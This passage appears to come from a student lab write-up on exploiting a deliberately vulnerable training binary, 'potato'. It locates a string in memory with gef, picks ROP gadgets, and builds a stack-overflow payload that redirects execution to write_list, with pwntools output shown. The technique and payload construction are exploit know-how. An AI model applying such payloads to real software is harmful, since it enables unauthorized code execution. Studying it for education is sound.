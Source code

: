 ```bash
[Rest ommmited for better readability]
```

We can see that the main program memory space stretches from `0x0000000000400000` to `0x0000000000408000`.
To search this space for the string of _userlist_ we can use the following command:

```bash
gef➤  find 0x0000000000400000, 0x0000000000408000, "userlist"
0x4051da
0x40526e
2 patterns found.
```

We can see that two addresses containing the string _userlist_ were found. For the purpose of this exercise either one will suffice so we will use the first one.

To craft a functional payload we will need to pass the argument to the `write_list(char* path)` function when it is called we will need to write the argument to `RDI` at the right time, this is imporant because in 64-Bit systems the first function parameter is most commonly passed via the `RDI` register. For this we will need to use a `ROP Gadget`, later on we will see how to find those gadgets. For now we will just use the gadget available at the following address: `0x155554c34205`.

To ensure that thie payload works the stack needs to be realigned after jumping to the `write_list` function. To realign the stack we simply need to execute a second arbitrary `ret` statement. For this we use the address of the `ret` statement from the `changename` function: `0x4040e4`.

With this information we can craft the following payload:

```python
payload=b"\x41"*72 + p64(0x4040e4) + p64(POP_RDI) + p64(0x4051da) + p64(0x403778) 
```

Executing the Python script with the payload does not yield any extra ouput to the terminal.

```bash
python3 pwn_potato2.py
[*] '/home/kali/workspace/ITS_FHCAMPUS/Semester_2/Cyber_Security_ILV/uebung_2/potato'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        No PIE (0x400000)
    Stack:      Executable
    RWX:        Has RWX segments
    Stripped:   No
    Debuginfo:  Yes
[+] Starting local process '/home/kali/workspace/ITS_FHCAMPUS/Semester_2/Cyber_Security_ILV/uebung_2/potato': pid 52120
[!] ASLR is disabled!
[*] running in new terminal: ['/usr/bin/gdb', '-q', '/home/kali/workspace/ITS_FHCAMPUS/Semester_2/Cyber_Security_ILV/uebung_2/potato', '-p', '52120', '-x', '/tmp/pwnlib-gdbscript-nblnvnee.gdb']
[+] Waiting for debugger: Done
b'starting up (pid 52120)\nreading file userlist\nhandle_client\ncmd> '
b'Welcome!\nusername: password: searching for user ...\nchecking password ...\nYou are authorized.\n\ncmd> '
[*] Switching to interactive mode
What is the name > Name changed.
[*] Got EOF while reading in interactive
$ 
```
